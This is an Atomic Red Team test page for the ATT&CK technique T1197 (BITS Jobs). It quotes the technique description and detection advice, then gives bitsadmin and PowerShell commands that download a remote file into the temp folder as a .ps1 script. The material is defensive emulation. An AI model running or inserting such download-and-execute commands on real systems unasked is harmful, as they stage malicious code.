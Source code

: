 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM) (Citation: Microsoft COM). (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through PowerShell  (Citation: Microsoft BITS) and the BITSAdmin tool. (Citation: Microsoft BITS)Admin

Adversaries may abuse BITS to download, execute, and even clean up after malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform Exfiltration Over Alternative Protocol. (Citation: CTU BITS Malware June 2016)

Detection: BITS runs as a service and its status can be checked with the Sc query utility (<code>sc query bits</code>). (Citation: Microsoft Issues with BITS July 2011) Active BITS tasks can be enumerated using the BITSAdmin tool (<code>bitsadmin /list /allusers /verbose</code>). (Citation: Microsoft BITS)

Monitor usage of the BITSAdmin tool (especially the ‘Transfer’, 'Create', 'AddFile', 'SetNotifyFlags', 'SetNotifyCmdLine', 'SetMinRetryDelay', 'SetCustomHeaders', and 'Resume' command options)  (Citation: Microsoft BITS)Admin and the Windows Event log for BITS activity. Also consider investigating more detailed information about jobs by parsing the BITS job database. (Citation: CTU BITS Malware June 2016)

Monitor and analyze network activity generated by BITS. BITS jobs use HTTP(S) and SMB for remote connections and are tethered to the creating user and will only function when that user is logged on (this rule applies even if a user attaches the job to a service account). (Citation: Microsoft BITS)

Platforms: Windows

Data Sources: API monitoring, Packet capture, Windows event logs

Defense Bypassed: Firewall, Host forensic analysis

Permissions Required: User, Administrator, SYSTEM

Contributors: Ricardo Dias, Red Canary</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)


<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
bitsadmin.exe  /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
